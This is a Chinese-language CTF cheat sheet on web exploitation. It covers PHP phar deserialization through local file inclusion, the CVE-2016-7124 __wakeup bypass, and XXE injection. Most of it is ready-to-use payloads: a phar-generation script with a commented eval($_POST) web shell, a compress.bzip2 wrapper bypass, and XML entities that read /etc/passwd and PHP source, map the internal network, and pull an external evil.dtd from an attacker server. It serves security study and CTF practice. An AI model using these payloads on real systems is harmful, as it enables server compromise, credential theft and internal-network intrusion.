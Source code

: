 php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();?>`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件上传，再借助LFI的phar协议，触发文件操作函数进行反序列化，利用条件如下：

1. phar文件要能够上传到服务器端。
2. 要有可用的魔术方法作为“跳板”，一般是`__destruct()`。
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤。

注意：

- 要将php.ini中的`phar.readonly`选项设置为`Off`，否则无法生成phar文件。
- `unserialize`反序列化会先触发`__wakeup`再触发`__construct`，但是通过phar反序列化不会触发这两个魔术方法。两者都会触发`__destruct`。

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
/*$o->title = 'aaaa\';?><?php eval($_POST[a]);?>;\'';*/ //sample:hello_php，纵横杯-2020
    $phar->setMetadata($o); //将自定义的meta-data以序列化方式存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    $phar->stopBuffering(); //签名自动计算
?>
```

如果[题目限制](https://xz.aliyun.com/t/2958)`phar://`不能出现在头几个字符，借助：`compress.bzip2`或`compress.zlib`：

`compress.bzip2://phar:///home/sx/test.phar/test.txt`

#### [序列化字符串对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行](https://blog.csdn.net/qq_19876131/article/details/52890854)（CVE-2016-7124）

序列化字符串对象属性个数的值大于真实的属性个数，会导致反序列化失败使得`__wakeup`无法被触发，但是随后会继续触发`__destruct`。漏洞影响版本：`PHP5 < 5.6.25`，`PHP7 < 7.0.10`。（sample：DoYouKnowRobots-GXY-CTF-2019）

`O:10:"TestObject":1:{s:5:"value";N;}`

O代表Object（对应还有A对应Array），10代表对象名字10个字符，1代表对象1个属性（修改此值触发漏洞），s代表string（i代表int），5代表属性名长度，N代表NULL。

## [XXE（XML External Entity Injection）](https://www.cnblogs.com/zhaijiahui/p/9147595.html)

```xml
<!--read file-->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<foo>
<value>&passwd;</value>
</foo>
<!--local network access:http://gv7.me/articles/2018/think-about-blind-xxe-payload-->
file:///etc/hosts
file:///proc/net/arp //找内网
ENTITY xxe SYSTEM "http://192.168.1.8"
<!--read php-->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">]>
<root>
<name>&xxe;</name>
</root>
<!--read file through DTD, need to pre-set evil.dtd in vps-->
<!--METHOD1, read file-->
<!ENTITY b SYSTEM "file:///etc/passwd"> <!--evil.dtd-->
<!DOCTYPE a [<!ENTITY % f SYSTEM "http://vps/evil.dtd"> %f;]>
```